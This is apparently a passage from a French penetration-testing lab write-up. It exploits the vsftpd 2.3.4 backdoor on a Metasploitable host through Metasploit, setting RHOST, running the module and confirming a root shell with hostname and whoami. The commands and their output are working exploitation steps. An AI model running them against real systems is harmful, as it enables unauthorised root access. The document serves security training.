 ```
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html

View the full module info with the info -d command.
```

*Résumé*: Le module cible une faille de backdoor dans **vsftpd 2.3.4** permettant l'exécution de commandes arbitraires avec privilèges root.

---

### 5. Configuration de l'Adresse Cible

```

set RHOST 10.6.0.7
```

**Sortie:**
```
RHOST => 10.6.0.7
```

*Remarque*: L'adresse IP de la cible a été configurée avec succès.

---

### 6. Lancement de l'Exploitation

```

run
```

**Sortie:**
```
[*] 10.6.0.7:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.6.0.7:21 - USER: 331 Please specify the password.
[+] 10.6.0.7:21 - Backdoor service has been spawned, handling...
[+] 10.6.0.7:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.6.0.9:41769 -> 10.6.0.7:6200) at 2025-01-20 16:33:46 +0100
```

*Observation*: L'exploitation a réussi, ouvrant une session shell en tant que **root** sur la cible.

---

### 7. Vérification de l'Accès Obtenu

```

hostname && whoami
```

**Sortie:**
```
metasploitable
root
```
